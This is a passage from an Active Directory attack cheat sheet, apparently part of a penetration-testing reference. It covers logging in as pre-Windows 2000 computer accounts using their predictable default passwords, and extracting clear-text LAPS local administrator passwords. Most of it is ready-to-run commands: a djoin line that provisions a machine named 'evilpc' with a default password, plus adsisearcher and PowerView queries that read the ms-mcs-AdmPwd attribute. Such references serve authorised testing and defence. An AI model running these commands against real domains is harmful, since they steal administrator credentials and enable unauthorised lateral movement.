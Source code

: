 ## Password of Pre-Created Computer Account

When `Assign this computer account as a pre-Windows 2000 computer` checkmark is checked, the password for the computer account becomes the same as the computer account in lowercase. For instance, the computer account **SERVERDEMO$** would have the password **serverdemo**.

```ps1
# Create a machine with default password
# must be run from a domain joined device connected to the domain
djoin /PROVISION /DOMAIN <fqdn> /MACHINE evilpc /SAVEFILE C:\temp\evilpc.txt /DEFPWD /PRINTBLOB /NETBIOS evilpc
```

- When you attempt to login using the credential you should have the following error code : `STATUS_NOLOGON_WORKSTATION_TRUST_ACCOUNT`.
- Then you need to change the password with [rpcchangepwd.py](https://github.com/SecureAuthCorp/impacket/pull/1304)

## Reading LAPS Password

> Use LAPS to automatically manage local administrator passwords on domain joined computers so that passwords are unique on each managed computer, randomly generated, and securely stored in Active Directory infrastructure.

### Determine if LAPS is installed

```ps1
Get-ChildItem 'c:\program files\LAPS\CSE\Admpwd.dll'
Get-FileHash 'c:\program files\LAPS\CSE\Admpwd.dll'
Get-AuthenticodeSignature 'c:\program files\LAPS\CSE\Admpwd.dll'
```

### Extract LAPS password

> The "ms-mcs-AdmPwd" a "confidential" computer attribute that stores the clear-text LAPS password. Confidential attributes can only be viewed by Domain Admins by default, and unlike other attributes, is not accessible by Authenticated Users

- From Windows:
    
    - adsisearcher (native binary on Windows 8+)
        
        ```powershell
        ([adsisearcher]"(&(objectCategory=computer)(ms-MCS-AdmPwd=*)(sAMAccountName=*))").findAll() | ForEach-Object { $_.properties}
        ([adsisearcher]"(&(objectCategory=computer)(ms-MCS-AdmPwd=*)(sAMAccountName=MACHINE$))").findAll() | ForEach-Object { $_.properties}
        ```
        
    - [PowerView](https://github.com/PowerShellEmpire/PowerTools)
        
        ```powershell
        PS > Import-Module .\PowerView.ps1
        PS > Get-DomainComputer COMPUTER -Properties ms-mcs-AdmPwd,ComputerName,ms-mcs-AdmPwdExpirationTime
        ```
        